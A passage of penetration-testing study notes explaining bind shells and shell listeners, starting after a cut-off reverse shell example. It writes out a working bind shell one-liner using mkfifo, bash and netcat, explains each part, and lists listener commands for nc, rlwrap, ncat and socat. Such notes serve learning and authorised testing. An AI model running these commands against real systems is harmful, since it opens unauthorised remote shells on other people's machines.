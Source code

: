 				- That's an example of a reverse shell payload

Bind Shell
- Connection initiates from the attackers machine to the target machine
- The bind shell will bind a port on the target system and listen for a connection
- When the connection comes in, it will expose the shell session so that the attacker can run their commands remotely
- This alternative to the Remote Shell can be used when the target computer/system doesn't allow outbound connections - but it tends to be less popular since it needs to remain active and listen for connections, which can lead to detection. 
- Example:
	- On the target machine:
	- `rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | bash -i 2>&1 | nc -l 0.0.0.0 8080 > /tmp/f`
		- `rm -f /tmp/f`
			- Removes any existing named pipe at `/tmp/f/` (to ensure that a new one can be created, and there won't be any butting of heads - metaphorically speaking)
		- `mkfifo /tmp/f`
			- Creates a new named pipe, or FIFO, at `/tmp/f`
			- Remember this is going to be the conduit, the 'pipe' between the target-machine and the attacking-machine
		- `cat /tmp/f`
			- Reads data from the newly created named pipe.
			- It waits for input that can be sent through the pipe
		- `| bash -i 2>&1`
			- The output of cat is piped into a shell instance (`bash -i`) - this will allow the attacker to run commands interactively
			- Remember that `2>&1` will redirect 'Standard Error' to 'Standard Output' - thus ensuring that the attacking machine can see any errors that the shell may encounter
		- `| nc -l 0.0.0.0 8080`
			- Starts netcat in listen mode (this is on the target-machine remember) on port 8080
		- `>/tmp/f`
			- Sends commands' output back into the named pipe, allowing for that bidirectional communication to happen
	- On the attackers machine:
	- `nc -nv <target_ip> 8080`
		- `nc` 
			- Invokes netcat
			- `-n` 
				- Disables DNS resolution
			- `-v`
				- Verbose mode to print out details of the connection process, ie when it gets established
			- `<target_ip>`
				- Speaks for itself
			- `8080`
				- the targets port number
	- That's an example of a Bind Shell
	- Note: port numbers below 1024 will need root or privileged permissions.

Shell Listeners
- `rlwrap`
	- A utility that uses the GNU readline library to provide editing keyboard and history
	- `rlwrap nc -lvnp 443`
		- `rlwrap` wraps `nc` allowing now the use of features like arrow keys and history for better interaction
- `ncat`
	- An improved version of Netcat distrubted by the NMAP project
	- Provides extra features, like encryption! (SSL)
	- `ncat -lvnp 4444`
		- When listening for a revshell
	- `ncat --ssl -lvnp 4444`
		- When listening for a revshell with SSL
- `socat`
	- Allows one to create a socket connection between two data sources, two hosts
	- `socat -d -d TCP-LISTEN:443 STDOUT`